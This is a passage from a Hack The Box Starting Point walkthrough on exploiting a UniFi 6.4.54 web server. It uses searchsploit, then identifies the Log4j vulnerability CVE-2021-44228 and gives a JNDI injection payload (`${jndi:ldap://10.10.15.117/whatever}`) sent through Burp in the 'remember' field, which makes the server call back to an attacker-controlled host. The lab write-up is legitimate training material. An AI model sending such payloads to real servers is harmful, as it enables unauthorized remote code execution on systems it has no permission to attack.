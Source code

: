3. As the above image shown, it is a UniFi Web Server, we would like to know its expoilts

   ```
   searchsploit unifi 6
   ```

   ![](../assets/img/htb-starting-point/55.png)

   We are interested on the UniFi exploits, let's examine this

   ```
   searchsploit -x php/webapps/39268.java
   ```

   However, this seems not the one we can make use of.

4. Let's just search it on google with `Unifi 6.4.54 exploit` , we find a useful webpage https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi, which mention **Log4j vulnerabilities in Unifi software** with **CVE-2021-44228**

5. As mentioned, the vulnerability is in the *remember* field or *username* field, we can exploit this by **Burp** sending request. There are two ways to test for vulnerability echoing: **1) DNSlog 2) tcpdump**

   > https://www.youtube.com/watch?v=NLf1xzdlfCE tcpdump to monitor network traffic
   >
   > https://xz.aliyun.com/t/9747 DNSlog to monitor subdomain query

   The payload for the remember parameter `${jndi:ldap://{Tun0_IP}/whatever}`, we would send as **string** to prevent it being parsed as another JSON object

   > `"${jndi:ldap://10.10.15.117/whatever}"`

